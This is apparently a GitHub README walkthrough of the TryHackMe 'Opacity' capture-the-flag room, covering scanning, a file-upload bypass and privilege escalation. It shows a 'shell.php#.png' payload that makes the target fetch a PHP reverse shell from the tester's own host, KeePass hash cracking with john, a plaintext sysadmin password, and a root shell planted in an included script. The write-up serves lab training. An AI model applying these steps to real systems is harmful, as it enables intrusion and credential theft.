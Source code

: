 # Opacity CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Opacity** CTF challenge on [TryHackMe](https://tryhackme.com/room/opacity). 
---


we know about 3 open ports: 22, 80, 139

![scn](imgs/scn.png "scn")

using feroxbuster to find hidden folders

![ferox](imgs/ferox.png "ferox")

we found `/cloud/` where we have ability to upload images

![up](imgs/up.png "up")

we can upload image using

```
http://10.14.91.59:8081/some.jpeg
```

maybe we could smuggle reverse shell via file upload

![trick](imgs/trick.png "trick")

i used this payload to upload the shell

```
http://10.14.91.59:8081/shell.php#.png
```

this is our file localization `http://10.10.239.96/cloud/images/shell.php#.png`

![loc](imgs/loc.png "loc")

it worked we have shell as www-data

![www](imgs/www.png "www")

linpeas found some keepass databse

![lin](imgs/lin.png "lin")

we can use keepass2john to create hash 

```
$ /usr/sbin/keepass2john dataset.kdbx > crack.txt
$ john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

we cracked the password for the keepass databse

![john](imgs/john.png "john")

we now can use KeePass2 to open the database, provide master password, copy the sysadmin user password `Cl0udP4ss40p4city#8700`

now we can ssh as sysadmin and we have user flag

![user](imgs/user.png "user")

we can now finally look into scripts folder

script.php file contains

![script](imgs/script.png "script")

we see that the file requires `lib/backup.inc.php`

we can modify the `backup.inc.php` file so it contains a reverse shell

now we got hit with shell as root 

we got root shell and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
